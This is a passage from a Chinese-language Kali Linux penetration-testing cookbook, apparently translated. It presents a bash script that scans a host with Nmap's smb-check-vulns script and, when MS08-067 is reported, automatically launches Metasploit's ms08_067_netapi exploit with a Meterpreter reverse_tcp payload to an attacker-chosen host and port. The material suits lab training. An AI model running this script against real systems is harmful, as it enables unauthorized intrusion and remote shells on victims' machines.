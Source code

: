 在提供的示例中，脚本会传递到`netscan.txt`输出文件。 对文件进行快速分析后，脚本确定两个系统正在端口445上运行服务。然后使用`smb-check-vulns.nse`脚本扫描每个服务，并在终端中生成输出。

### 工作原理

通过提供`grep`序列作为`for`循环要使用的值，此秘籍中的 bash 脚本基本上只是循环遍历该函数的输出。 通过独立运行该函数，可以看到它只提取对应运行 SMB 服务的主机的 IP 地址列表。 然后，`for`循环遍历这些IP地址，并对每个 IP 地址执行 NSE 脚本。

## 8.3 使用 MSF 漏洞利用的 Nmap MSE 漏洞扫描

在某些情况下，开发一个将漏洞扫描与利用相结合的脚本可能会有所帮助。 漏洞扫描通常会导致误报，因此通过执行漏洞扫描的后续利用，可以立即验证这些发现的正确性。 此秘籍使用 bash 脚本来执行`smb-check-vulns.nse`脚本，来确定主机是否存在 MS08-067 NetAPI 漏洞，并且如果 NSE 脚本显示如此，Metasploit 会用于 自动尝试利用它来验证。

### 准备

要使用本秘籍中演示的脚本，你需要使用 grepable 格式的 Nmap 输出结果。 这可以通过执行 Nmap 端口扫描并使用`-oA`选项输出所有格式，或`-oG`来专门输出 greppable 格式来获取。 在提供的示例中，多个系统在单个`/24`子网上扫描，这包括 Windows XP 和 Metasploitable2。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本将漏洞扫描和目标利用的任务串联到一起。 在这种情况下，`smb-checkvulns.nse`脚本用于确定系统是否容易受到 MS08-067 攻击，然后如果发现系统存在漏洞，则对系统执行相应的 Metasploit 漏洞利用。

```
#! /bin/bash 
if [ ! $1 ]; then echo "Usage: #./script <RHOST> <LHOST> <LPORT>"; 
exit; fi

rhost=$1 
lhost=$2 
lport=$3

nmap --script smb-check-vulns.nse -p 445 $rhost --scriptargs=unsafe=1 -oN tmp_output.txt 
if [ $(grep MS08-067 tmp_output.txt | cut -d " " -f 5) = "VULNERABLE" ];
    then echo "$rhost appears to be vulnerable, exploiting with Metasploit...";   
    msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/ meterpreter/reverse_tcp RHOST=$rhost LHOST=$lhost LPORT=$lport E; 
fi 
rm tmp_output.txt 
```

为了确保你能理解脚本的功能，我们将按顺序对每一行进行讲解。脚本中的前几行与本章前面讨论的脚本相同。第一行定义解释器，第二行测试输入，第三，第四和第五行都用于根据用户输入定义变量。在此脚本中，提供的用户变量对应 Metasploit 中使用的变量。 `RHOST`变量应该定义目标的 IP 地址，`LHOST`变量应该定义反向监听器的 IP 地址，`LPORT`变量应该定义正在监听的本地端口。然后脚本在正文中执行的第一个任务是，对目标系统的 IP 地址执行`smb-check-vulns.nse`脚本，它由`RHOST`输入定义。然后，结果以正常格式输出到临时文本文件。然后，`if ... then`条件语句与`grep`函数结合使用，来测试输出文件中是否有唯一的字符串，它表明系统存在漏洞。如果发现了唯一的字符串，则脚本会显式系统看起来存在漏洞，然后使用 Metasploit 框架命令行界面（MSFCLI）使用 Meterpreter 载荷执行 Metasploit 漏洞利用。最后，在加载漏洞利用后，使用`rm`函数从文件系统中删除 Nmap 临时输出文件。`test_n_xploit.sh bash`命令执行如下：

```
root@KaliLinux:~# ./test_n_xploit.sh 
Usage: #./script <RHOST> <LHOST> <LPORT>
```
